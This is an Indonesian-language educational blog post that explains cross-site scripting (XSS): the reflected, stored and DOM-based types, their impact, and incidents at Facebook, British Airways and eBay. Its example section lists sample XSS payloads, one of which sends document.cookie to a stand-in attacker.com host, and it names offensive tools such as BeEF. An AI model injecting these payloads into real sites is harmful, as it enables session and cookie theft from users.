 ```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack","cross-site-scripting"]
description: "Cross-Site-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang…"
heroImage: 
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
externalPost: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.


![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)


Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**


![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)


Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)


![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)


Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS


![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)


Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu ```http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\```.

**Contoh XSS Script**

- ```<script>…</script>```
- ```\<body onload=alert\(‘test1’\)\>```
- ```\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>```
- ```\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>```
- ```\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>```


**Tools yang dapat digunakan untuk melakukan XSS**
- Framework XSS Scanner, ada beberapa contoh aplikasi
- XSSer
- XSStrike
- Shuriken
- Xsscrapy
- KNOXSS
- Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**


Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)



